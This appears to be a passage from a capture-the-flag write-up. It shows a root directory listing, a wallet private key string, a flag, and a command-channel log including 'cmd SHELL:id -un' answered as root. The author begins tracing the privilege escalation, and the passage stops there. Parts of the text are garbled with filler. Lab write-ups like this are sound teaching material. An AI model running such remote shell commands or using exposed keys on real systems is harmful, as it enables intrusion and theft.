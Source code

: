 ```shell
drwxr-xr-x 19 root root 4096 Dec 31 10:38 ..
-rw-r--r--  1 root root 3106 May 20  2022 .bashrc
drwxr-xr-x  4 root root 4096 Jan  4 13:21 .cache
drwxr-xr-x  3 root root 4096 Jan 31 17:05 .config
-r--r--r--  1 root root 3106 May 20  2022 wallet-pub.txt
-r--------  1 root root 3106 May 20  2022 wallet-priv.txt
drwx------  3 root root 4096 Dec 31 11:27 .dbus
drwxr-xr-x  3 root root 4096 Jan  4 13:20 .local
-rw-r--r--  1 root root  161 Apr 28  2022 .profileLorem ipsum dolor sit amet, consectetur adipiscing elit. Praesent imperdiet pretium bibendum. Phasellus sit amet odio sit amet nunc facilisis dignissim. Proin vel auctor mauris. Duis id lorem sed orci imperdiet ultrices eu ac felis. Pellentesque ut leo vitae dui tincidunt dapibus in eget erat. Morbi eu ligula quis urna ullamcorper cursus sit amet at justo. Pellentesque vestibulum mattis lectus, non suscipit mi aliquam at. Nullam et dictum libero. Aliquam ultricies feugiat nunc, et pulvinar eros hendrerit eu. Aenean consectetur nulla a metus lacinia tempus. Nulla eu feugiat orci. In hac habitasse platea dictumst. Integer sit amet dolor nunc. Aliquam vehicula leo quis feugiat pulvinar. Etiam ac interdum felis. 
            Wallet private:  L5mj2Yt5rfYXprowC8pUBsyC9R1PgKKpfQSNqcBRZBiaXUg5bi5s
            flag-blockchaiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiin
            In posuere, nisl eu aliquet ultrices, urna elit aliquam mi, vel suscipit ante nibh eget nibh. Sed massa lorem, condimentum ut odio at, rutrum iaculis lectus. Aenean libero arcu, pretium dapibus nunc auctor, lacinia gravida lorem. Duis vitae vulputate ligula. Quisque tincidunt risus nec luctus ornare. Curabitur sed sagittis odio. Vivamus a leo id diam bibendum gravida. Integer efficitur ultrices odio. Aliquam egestas, nisl et mollis lobortis, augue leo consectetur enim, quis dictum justo sapien et justo.
cmd OK
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd NO
heartbeat
cmd QUIT
```


Amongst this output, the section that caught my eye was:


```
cmd SHELL:id -un
resp vft-secure-vault.yrr.corprosie.meyerOKSudo version 1.8.27OKroot
```


Since this line shows the user is now root, we can assume that whatever happened before it was probably the privilege escalation we're looking for-- looking upwards in the output, we see the following:

